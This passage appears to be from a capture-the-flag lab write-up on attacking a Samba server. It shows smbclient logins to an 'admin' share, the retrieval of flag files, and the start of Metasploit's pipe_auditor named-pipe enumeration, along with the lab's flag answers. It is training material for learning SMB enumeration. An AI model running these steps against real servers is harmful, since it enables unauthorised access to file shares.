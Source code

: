 ```
  .                                   D        0  Tue Nov 27 19:25:12 2018
  ..                                  D        0  Tue Nov 27 19:25:12 2018

                1981084628 blocks of size 1024. 63973472 blocks available
smb: \admin\> exit
root@attackdefense:~# cat flag
16cb5a2bebf654439291fc9b73b0a6d0
```

Fetch the flag from share “admin”

`2727069bc058053bd561ce372721c92e`

```
root@attackdefense:~# smbclient //192.38.66.3/admin -U admin
Enter WORKGROUP\admin's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Oct 25 10:42:11 2022
  ..                                  D        0  Tue Nov 27 19:25:12 2018
  hidden                              D        0  Tue Nov 27 19:25:12 2018

                1981084628 blocks of size 1024. 63973232 blocks available
smb: \> cd hidden\
smb: \hidden\> dir
  .                                   D        0  Tue Nov 27 19:25:12 2018
  ..                                  D        0  Tue Oct 25 10:42:11 2022
  flag.tar.gz                         N      151  Tue Nov 27 19:25:12 2018

                1981084628 blocks of size 1024. 63973392 blocks available
smb: \hidden\> get flag.tar.gz 
getting file \hidden\flag.tar.gz of size 151 as flag.tar.gz (147.4 KiloBytes/sec) (average 147.5 KiloBytes/sec)
smb: \hidden\> exit
root@attackdefense:~# rm flag
root@attackdefense:~# tar zxf flag.tar.gz 
root@attackdefense:~# ls
README  flag  flag.tar.gz  tools  wordlists
root@attackdefense:~# cat flag
2727069bc058053bd561ce372721c92e
```

List the named pipes available over SMB on the samba server? Use  pipe_auditor metasploit module with credentials obtained from question 2.

`netlogon, lsarpc, samr, eventlog, InitShutdown, ntsvcs, srvsvc, wkssvc`

[SMB Session Pipe Auditor](https://www.rapid7.com/db/modules/auxiliary/scanner/smb/pipe_auditor/)

SMB 会话管道审计员

确定可以通过 SMB 访问哪些命名管道

```
root@attackdefense:~# service postgresql start && msfconsole -q
[ ok ] Starting PostgreSQL 11 database server: main.
msf5 > use auxiliary/scanner/smb/pipe_auditor
msf5 auxiliary(scanner/smb/pipe_auditor) > show options

Module options (auxiliary/scanner/smb/pipe_auditor):

   Name         Current Setting                                                 Required  Description
   ----         ---------------                                                 --------  -----------
   NAMED_PIPES  /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
```